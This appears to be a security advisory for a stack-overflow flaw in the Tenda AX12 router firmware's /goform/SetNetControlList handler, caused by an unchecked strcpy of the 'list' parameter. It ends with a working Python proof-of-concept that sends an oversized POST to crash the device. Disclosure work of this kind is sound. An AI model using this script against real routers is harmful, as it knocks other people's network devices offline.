


Affect device: Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetNetControlList` page which influences the lastest version of Tenda-AX12 V22.03.01.21_CN(https://www.tenda.com.cn/download/detail-3237.html)

There is a stack overflow vulnerability in the `sub_4327CC` function.

The `v2` variable is obtained directly from the http request parameter `list`.

And then it calls the `sub_4325BC` function.



However, in the `sub_4325BC` function, it calls the strcpy function to a1 to v14 without any security check, which causes the stack overflow.



So by POSTing the page `/goform/SetNetControlList` with long `list`, the attacker can easily perform a Denial of Service(DoS).

# POC

Poc of Denial of Service(DoS):

```python
import requests

url = "http://192.168.0.1/goform/SetNetControlList"
list_data = 'a'*0x1000 + '\n'

r = requests.post(url, data={'list': list_data})
print(r.content)
```

